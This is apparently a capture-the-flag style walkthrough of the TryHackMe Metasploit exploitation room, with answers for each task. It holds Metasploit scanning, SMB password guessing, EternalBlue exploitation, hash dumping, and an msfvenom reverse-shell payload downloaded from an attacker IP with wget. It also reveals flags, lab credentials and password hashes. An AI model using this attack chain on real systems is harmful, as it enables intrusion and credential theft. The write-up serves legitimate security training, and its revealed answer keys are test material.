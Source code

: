 ![Metasploit: Exploitation Banner](https://assets.tryhackme.com/room-banners/metasploit.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Cover.png" alt="Metasploit: Exploitation Logo">
</p>

# Metasploit: Exploitation

This guide contains the answer and steps necessary to get to them for the [Metasploit: Exploitation](https://tryhackme.com/room/metasploitexploitation) room.

## Table of contents

- [Scanning](#scanning)
- [The Metasploit Database](#the-metasploit-database)
- [Vulnerability Scanning](#vulnerability-scanning)
- [Exploitation](#exploitation)
- [Msfvenom](#msfvenom)

### Scanning

1. How many ports are open on the target system?

   ```cmd
   use auxiliary/scanner/portscan/tcp
   ```
   
   ![Portscan](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Scanning_Portscan.png)

   ><details><summary>Click for answer</summary>5</details>

2. Using the relevant scanner, what NetBIOS name can you see?

   ```cmd
   use auxiliary/scanner/discovery/udp_sweep
   ```

   ![Netbios](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Scanning_Netbios.png)

   ><details><summary>Click for answer</summary>ACME IT SUPPORT</details>

3. What is running on port 8000?

   ```cmd
   nmap -sV 10.10.162.76
   ```

   ![Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Scanning_Nmap.png)

   ><details><summary>Click for answer</summary>WebFS/1.21</details>

4. What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task. 

   ```cmd
   use auxiliary/scanner/smb/smb_login
   ```

   ![Smb](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Scanning_SMB.png)

   ><details><summary>Click for answer</summary>leo1234</details>

### The Metasploit Database

Lets try yo replicate what they are doing. First we need to start the databases and then Metasploit.

```cmd
systemctl start postgresql

sudo msfdb init
```

![Initialize](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Database_Initialize)

Now we can interact with the database with the following commands:

```cmd
db_status                  -> Check datanase status
workspace                  -> List workspaces
workspace -a tryhackme     -> Add a workspace
workspace default          -> Cange active workspace
```

![Msf](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Database_msf)

```cmd
db_nmap -p- 10.10.162.76   -> Perform an nmap scan and output results to the database
```

![Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Database_Scan)

### Vulnerability Scanning

1. Who wrote the module that allows us to check SMTP servers for open relay?

   Look the the corresponding module and use `info`.
   
   ```cmd
   use auxiliary/scanner/smtp/smtp_relay
   info
   ```
   
   ![Smtp](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Vulnerability_SMTP)

   ><details><summary>Click for answer</summary>Campbell Murray</details>

### Exploitation

1. Exploit one of the critical vulnerabilities on the target VM

   We can do some scans to look for particular vulnerabilities. One easy thing to check is the host OS version. 
   
   ![Host](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Exploitation_Host)
   
   Looks like this might be vulnerable to the Eternal Blue exploit.
   
   ```cmd
   use exploit/windows/smb/ms17_010_eternalblue
   ```

   ![Exploited](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Exploitation_Exploited)

2. What is the content of the flag.txt file?

   Search through the user folder to find and read the flag.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Exploitation_Flag)

   ><details><summary>Click for answer</summary>THM-5455554845</details>

3. What is the NTLM hash of the password of the user "pirate"?

   ```cmd
   use post/windows/gather/hashdump
   ```
   
   ![Hash](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Exploitation_Hash)

   ><details><summary>Click for answer</summary>8ce9a3ebd1647fcc5e04025019f4b875</details>

### Msfvenom
   
1. Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.
   
   ```cmd
   ssh murphy@10.10.164.113
   ```
   
   User the provided password to log in. Then switch to the root user with: `sudo su`.

2. Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).

   ```cmd
   msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=10.18.78.136 lport=1337 -f elf -o shell.elf
   ```
   
   ![Creation](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Creation)
   
3. Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).

   ```cmd
   On our attackbox:
   python -m http.server 8080
   
   On the target machine:
   wget 10.18.78.136:8080/shell.elf
   ```
   
   ![Transfer](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Transfer)
   
4. Get a meterpreter session on the target machine.

   First set up the handler in Metasploit, then change the file permission, and lastly, run the file on the target machein.
   
   ```cmd
   use exploit/multi/handler
   ```
   
   ![Handler](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Handler)
   
   ```cmd
   chmod +x shell.elf
   
   ./shell.elf
   ```
   
   ![Run](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Run)
   
   ![Connection](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Connection)
   
5. Use a post exploitation module to dump hashes of other users on the system.

   ```cmd
   use post/linux/gather/hashdump
   ```
   
   ![Hash](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Hash)
   
6. What is the other user's password hash?

   The hash can be found in the previous image. However, we could even go a step furter and try to crack the hash with hashcat.
   
   ```cmd
   echo '$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0' > passwd.hash
   ```
   
   ```cmd
   hashcat -a 3 passwd.hash /usr/share/wordlists/rockyou.txt  
   ```
   
   ![Hashcat](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Hashcat)

   ><details><summary>Click for answer</summary>$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0</details>
